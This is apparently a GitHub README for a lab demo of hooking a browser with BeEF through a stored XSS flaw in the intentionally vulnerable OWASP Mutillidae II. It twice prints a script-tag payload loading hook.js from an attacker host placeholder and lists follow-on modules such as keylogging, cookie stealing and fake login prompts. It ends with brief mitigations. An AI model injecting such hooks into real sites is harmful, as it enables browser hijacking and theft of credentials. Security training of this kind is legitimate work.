 # 🔥 BeEF + Mutillidae XSS Demo

This project demonstrates how to use **BeEF** to hook a browser via a stored/reflected XSS vulnerability in **OWASP Mutillidae II**, and simulate client-side exploitation for educational and SOC analysis purposes.

> ⚠️ This is for **educational use only** in a legal lab environment.

---

## 🧪 Tools Used
- **Kali Linux** with BeEF (`beef-xss`)
- **OWASP Mutillidae II** vulnerable web app
- **Python HTTP Server** (to serve hook files or malicious pages)

---

## 🧷 Scenario

1. Launch BeEF (`sudo beef-xss`)
2. Navigate to Mutillidae > `XSS > Stored XSS`
3. Inject BeEF hook:
   ```html
   <script src="http://<KALI-IP>:3000/hook.js"></script>
   ```
4. Victim browses the vulnerable page → gets hooked by BeEF.
5. Attacker now executes modules (keylogger, port scanner, webcam test...).

---

## 📂 File Structure
- `attack_files/xss_mutillidae_payload.txt`: BeEF XSS injection example
- `report/incident_report.md`: SOC-style incident analysis
- `screenshots/`: Evidence of attack steps

---

## 📸 Screenshots

### 🎯 Mutillidae Home Page  
<img src="screenshots/mutillidae-home-page.png" alt="Mutillidae Home Page" width="400" />

### 🧰 Word Image  
<img src="screenshots/word-image-12.webp" alt="Word Image" width="400" />

----

## 📑 Sample Payload (`xss_mutillidae_payload.txt`)
```html
<script src="http://<KALI-IP>:3000/hook.js"></script>
```

> Injected into a form or URL parameter in Mutillidae

---

## 📖 Report Summary
- Target: Mutillidae (XSS > Stored)
- Hooked Victim Browser via malicious JavaScript
- Demonstrated:
  - Internal network scan
  - Cookie stealing simulation
  - Fake login prompt
- Analysis in `report/incident_report.md`

---

## 🛡️ Mitigation
- Content Security Policy (CSP)
- Input sanitization
- Disabling inline scripts

---

## 🧑‍💻 Author
Roei Ben Simon  
[GitHub » Roeibs100](https://github.com/Roeibs100)
